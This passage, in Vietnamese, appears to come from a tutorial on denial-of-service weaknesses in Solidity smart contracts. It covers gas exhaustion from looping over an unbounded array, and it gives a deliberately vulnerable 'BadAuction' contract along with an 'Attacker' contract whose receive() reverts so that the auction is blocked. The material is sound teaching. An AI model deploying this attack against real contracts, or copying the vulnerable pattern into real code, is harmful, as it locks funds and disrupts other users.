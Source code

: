 Trong ví dụ này, kẻ tấn công có thể tạo ra một lượng lớn các địa chỉ và lưu vào mảng `investors` thông qua hàm `invest`. Nếu kích thước của mảng `investors` quá lớn, việc lặp qua từng phần tử của nó và thực hiện chuyển token (`transferToken`) có thể gây ra ngoại lệ hết gas (out-of-gas exception). Khi đó, các lời gọi hàm `transferToken` thành công trong giao dịch sẽ bị hủy bỏ và khiến cho smart contract không còn khả dụng.

Ví dụ khác, smart contract sau đây thực hiện gửi ETH cho người đặt cược cao nhất.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BadAuction {

  address payable highestBidder;
  uint highestBid;

  function bid() public payable {
    require(msg.value >= highestBid);

    if (highestBidder != address(0)) {
      highestBidder.transfer(highestBid);
    }

    highestBidder = payable(msg.sender);
    highestBid = msg.value;
  }
  
}
```

Smart contract này có thể bị tấn công DoS nếu kẻ tấn công luôn làm cho hàm `transfer` gây ra ngoại lệ:

```sol
contract Attacker {
  
  BadAuction badAuction;

  constructor(address badAuctionAddress) {
    badAuction = BadAuction(badAuctionAddress);
  }

  function bid() public payable {
    badAuction.bid{value: msg.value}();
  }

  receive() external payable {
    revert();
  }
    
}
```
